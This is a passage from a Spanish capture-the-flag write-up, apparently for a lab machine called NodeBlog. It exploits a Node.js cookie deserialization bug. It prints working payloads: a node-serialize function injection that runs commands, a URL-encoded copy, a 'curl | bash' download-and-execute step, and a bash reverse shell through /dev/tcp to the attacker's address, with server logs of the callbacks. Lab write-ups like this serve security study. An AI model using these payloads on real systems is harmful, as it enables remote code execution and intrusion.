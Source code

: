 Que recibe un parámetro c del usuario, la cual después compara con el resultado de la función hash para autenticar el usuario. Por lo tanto, está comparando las cookies para iniciar la sesión desserializando la data que le llega desde el usuario. Esto abre la posibilidad del ataque de desserialización, pues lo que podemos hacer es mandarle una data maliciosa que se va a serializar y mandar al servidor web, cuando este llegue va a ser desserializado, sin embargo, antes de que lo haga haremos que ejecute la acción que les estamos diciendo o el comando que mandamos de manera maliciosa a través de un bug en **nodejs** (IIFE).

Si buscamos en la web tenemos esta [web](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) que nos dice la forma de enviar data serializada para injectar comandos, especificamente es esta:

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Sin embargo el que enviaremos será este:
```
{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('curl 10.10.14.17', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Enviando una petición http hacia nuestro equipo, vamos a tener abierto un servidor http con python para aquello. Hay que tener encuenta que la data viaja en url enconde, por lo tanto, vamos a aplicarselo a nuestra data:

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%31%37%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

Dentro del navegador web ponemos nuestra cookie y recargamos:

![](/imagenes/NodeBlog/node13.png)

Luego de recargar la página, observamos el servidor http:

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.139 - - [13/Feb/2023 17:31:02] "GET / HTTP/1.1" 200 -
```
Tenemos una petición get del servidor web. Ahora el siguiente paso es ganar acceso a la máquina, en este caso haremos la misma petición get pero tendremos un recurso llamado index.html que contendrá lo siguiente:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/1235 0>&1
```
Luego, esa información que obtenga de la petición, haremos que la ejecute con bash mientras esperamos una conexión con netcat por el puerto 1235:
```
{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('curl 10.10.14.17 | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
```
 python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.139 - - [13/Feb/2023 17:36:48] "GET / HTTP/1.1" 200 -
```
